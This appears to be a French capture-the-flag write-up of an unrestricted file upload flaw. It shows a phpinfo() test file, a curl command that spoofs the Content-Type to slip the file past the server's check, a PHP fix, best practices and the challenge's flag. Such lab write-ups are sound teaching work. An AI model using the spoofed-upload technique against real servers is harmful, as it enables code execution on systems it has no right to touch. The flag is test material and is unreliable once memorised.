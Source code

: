 Faille d'Upload de Fichier Non Restreint

## 1. Description de la Faille
Cette vulnérabilité permet l'upload de fichiers malveillants sur le serveur en contournant les vérifications de type de fichier.

## 2. Localisation
- Page vulnérable : `http://{IP_ADDRESS}/index.php?page=upload`
- Type de vulnérabilité : Upload de fichier non restreint

## 3. Exploitation

### Étape 1 : Création du fichier test
```php
<?php
// script.php
phpinfo();
?>
```

### Étape 2 : Exploitation via cURL
```bash
curl -F "Upload=send" -F "uploaded=@script.php;type=image/jpeg" http://{IP_ADDRESS}/index.php\?page=upload
```

### Explication technique
- Le serveur ne vérifie que le Content-Type dans la requête
- Il ne vérifie pas le contenu réel du fichier
- En spécifiant `type=image/jpeg`, on trompe le serveur sur le type réel du fichier

## 4. Impact de la Faille
1. Attaques côté serveur :
   - Exécution de code arbitraire
   - Accès aux fichiers système
   - Compromission du serveur
   
2. Attaques côté client :
   - Cross-Site Scripting (XSS)
   - Détournement de contenu
   - Manipulation du DOM

## 5. Comment Corriger
```php
function securiserUpload($fichier) {
    // 1. Vérifier le vrai type MIME
    $type = mime_content_type($fichier['tmp_name']);
    $typesAutorises = ['image/jpeg', 'image/png', 'image/gif'];
    
    if (!in_array($type, $typesAutorises)) {
        return false;
    }
    
    // 2. Générer un nom de fichier sécurisé
    $extension = pathinfo($fichier['name'], PATHINFO_EXTENSION);
    $nomSecurise = bin2hex(random_bytes(16)) . '.' . $extension;
    
    // 3. Définir un chemin sécurisé
    $cheminUpload = '/chemin/securise/' . $nomSecurise;
    
    // 4. Déplacer le fichier
    return move_uploaded_file($fichier['tmp_name'], $cheminUpload);
}
```

## 6. Bonnes Pratiques
1. Validation côté serveur :
   - Vérifier le type MIME réel
   - Valider l'extension
   - Scanner le contenu du fichier

2. Stockage sécurisé :
   - Stocker hors de la racine web
   - Utiliser des permissions restrictives
   - Renommer les fichiers de façon aléatoire

3. Configuration serveur :
   - Désactiver l'exécution dans les dossiers d'upload
   - Limiter la taille des fichiers
   - Implémenter des quotas

## 7. Flag
```
b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
```

## 8. Ressources
- [OWASP File Upload Cheat Sheet](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [MIME Type List](https://developer.mozilla.org/fr/docs/Web/HTTP/Basics_of_HTTP/MIME_types)